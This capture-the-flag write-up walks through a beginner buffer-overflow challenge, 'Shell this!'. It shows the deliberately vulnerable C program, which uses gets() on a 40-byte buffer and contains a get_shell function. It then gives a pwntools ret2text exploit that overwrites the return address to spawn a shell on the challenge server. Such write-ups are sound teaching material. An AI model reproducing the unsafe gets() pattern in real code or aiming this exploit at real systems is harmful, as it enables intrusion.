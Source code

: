 # Shell this!

If you have not already, follow us on Twitter for updates and content! [@RagnarSecurity](https://twitter.com/ragnarsecurity)

This is a beginner level challenge. Since this is a beginner level challenge, I will recommend a couple things to people new to pwn CTF challenges: 

- Get gdb-peda 
- Get pwntools
- Practice Practice Practice!
- [Learn Here](https://github.com/RPISEC/MBE): This is a crash course of binary exploitation from RPI. 

How to solve:

## Step 1 - Be a Reverse Engineer! 

We first need to figure out what the program is doing. Luckily we are given source code. 

```c
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void setup() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void get_shell() {
    execve("/bin/sh", NULL, NULL);
}

void vuln() {
    char name[40];

    printf("Please tell me your name: ");
    gets(name);
}

int main(void) {
    printf("Welcome! Can you figure out how to get this program to give you a shell?\n");
    vuln();
    printf("Unfortunately, you did not win. Please try again another time!\n");
}
```

Obviously the exploit is in `vuln`, and it is a buffer overflow. The other interesting thing is we have a get_shell. This means we can create a ret2text exploit. 

How to craft our exploit. 

- Fill the buffer, NOPS, RBP, and VULN's RET with whatever character you desire. 
- Fill main's ret with `get_shell`
- Shell!

```py
from pwn import *

elf = ELF('./shellthis')
p = remote("chal.duc.tf", 30002)

junk = b'A'*56
rop = ROP(elf)
rop.call(elf.symbols['get_shell'])

payload = junk+rop.chain()

p.recvuntil("Please tell me your name: ")
p.sendline(payload)
p.interactive()  
```